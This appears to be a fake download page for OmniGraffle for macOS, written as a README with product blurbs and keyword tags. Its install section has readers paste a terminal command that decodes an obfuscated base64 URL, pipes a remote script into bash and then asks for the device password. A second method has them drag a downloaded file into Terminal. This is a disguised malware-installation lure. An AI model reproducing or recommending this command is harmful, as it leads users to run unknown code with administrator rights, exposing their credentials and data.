 # OmniGraffle for macOS – Diagramming & UX Design Toolkit

![OmniGraffle Screenshot](https://www.omnigroup.com/assets/img/2020/graffle-47.jpg)

## 📥 Download OmniGraffle for macOS

[![⬇️ Download OmniGraffle Mac](https://img.shields.io/badge/Download-OmniGraffle%20Mac-blue?style=for-the-badge&logo=apple&logoColor=white)](https://shuziktobehuman.github.io/huja/OmniGraffle)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is OmniGraffle for Mac?

OmniGraffle is a professional visual design tool for macOS, crafted for building precise diagrams, wireframes, process charts, and UX flows. Whether you're mapping out user interfaces, network layouts, or business workflows, it offers unparalleled control and refinement.

Designed with macOS in mind, OmniGraffle features alignment guides, vector drawing tools, layers, grids, and automatic diagram layout engines. It’s used by professionals in design, development, and engineering to build clean, scalable visuals quickly.

If you're transitioning from tools like Visio or Lucidchart, OmniGraffle offers a native, powerful alternative tailored for Apple Silicon and Intel Macs.

---

![OmniGraffle Layout Screenshot](https://www.omnigroup.com/assets/img/2020/graffle-48.jpg)

---

## ⚙️ Key Features

- 🧠 Smart guides, alignment tools & snapping
- 🖍️ Vector-based drawing and Bézier editing
- 📊 Dynamic object connections & styling
- 🧩 Layered canvas support with grids
- 💼 Export to PDF, PNG, SVG, Visio & more
- 📐 Precision drawing tools for UX/UI diagrams
- 🔄 Automatic diagram layout algorithms
- 💻 Optimized for Apple Silicon & Intel

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

omnigraffle mac, omnigraffle download, graffle mac, omnigraffle professional, omnigraffle free, alternatives to omnigraffle, omnigraffle 5, omnigraffle 6, download omnigraffle 6, omnigraffle 7 download, omnigraffle 7 pro, omnigraffle download for mac, omnigraffle download mac, omnigraffle free download, omnigraffle m1, omnigraffle mac free, omnigraffle pro 7, omnigraffle mac download, omnigraffle mac free download

---
